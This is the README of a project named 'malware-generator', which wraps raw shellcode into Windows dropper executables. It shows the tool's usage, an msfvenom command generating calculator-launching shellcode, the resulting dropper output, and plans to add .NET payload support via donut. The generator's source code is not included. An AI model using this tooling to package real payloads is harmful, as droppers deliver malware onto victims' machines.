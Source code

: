 # malware-generator

Simple project to generate 32bit or 64bit droppers

# Usage

```
$ ./generator.py -h
usage: generator.py [-h] [-a ARCH] binaryPath

Simple raw shellcode Dropper Generator

positional arguments:
  binaryPath            File containing raw shellcode

optional arguments:
  -h, --help            show this help message and exit
  -a ARCH, --arch ARCH  Shellcode Architecture (1=x64, 2=x86) (default=x64)
  -d, --debug           Generate cpp code with the executable for debuging
```

Create raw 64bit or 32bit shellcode with any tool you like here i will use msfvenom calc 64bit shellcode.
```
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
```

Then use my tool to generate a dropper for it.
```
$ ./generator.py calc.bin 
[*] Generating x64 Dropper for calc.bin
[+] Executable saved to output/calc.exe
```


## Todo
* add option to generate direct from msfvenom.
* add option to pass .NET assemblies and use donut.
* add option to specifed output directory and output name.

